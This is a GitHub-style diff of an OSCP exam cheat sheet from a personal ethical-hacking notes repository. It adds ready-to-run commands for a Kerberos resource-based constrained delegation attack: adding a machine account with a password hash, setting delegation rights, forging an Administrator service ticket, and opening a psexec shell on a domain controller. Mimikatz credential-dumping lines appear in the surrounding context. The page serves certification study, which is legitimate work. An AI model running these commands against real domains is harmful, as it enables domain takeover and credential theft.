

Before and after one commit to rottaj/Rotta-Rocks, a Markdown page: ethical-hacking/templates-and-cheat-sheets/oscp-cheat-sheet.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
GITBOOK-265: change request with no subject merged in GitBook

````diff
--- a/ethical-hacking/templates-and-cheat-sheets/oscp-cheat-sheet.md
+++ b/ethical-hacking/templates-and-cheat-sheets/oscp-cheat-sheet.md
@@ -1557,3 +1557,37 @@ privilege::debug
 log sekurlsa.log
 lsadump::sam
 ```
+
+
+
+#### Kerberos Resource-Based Constrained Delegation
+
+Add new machine to domain
+
+```shell-session
+impacket-addcomputer resourced.local/l.livingstone -dc-ip 192.168.x.x -hashes :19a3a7550ce8c505c2d46b5e39d6f808 -computer-name 'ATTACK$' -computer-pass 'AttackerPC1!'
+```
+
+Set delegation rights to impersonate administrator using [rcbd-attack.](https://github.com/tothi/rbcd-attack/tree/master)
+
+```shell-session
+python3 rbcd.py -dc-ip 192.168.x.x -t RESOURCEDC -f 'ATTACK' -hashes :19a3a7550ce8c505c2d46b5e39d6f808 resourced\\l.livingstone
+```
+
+Obtain a ticket by impersonating Administrator
+
+```shell-session
+impacket-getST -spn cifs/resourcedc.resourced.local resourced/attack\$:'AttackerPC1!' -impersonate Administrator -dc-ip 192.168.x.x
+```
+
+Save ticket locally
+
+```shell-session
+export KRB5CCNAME=./Administrator.ccache
+```
+
+Login with saved ticket - psexec
+
+```shell-session
+impacket-psexec -k -no-pass resourcedc.resourced.local -dc-ip 192.168.x.x
+```
````
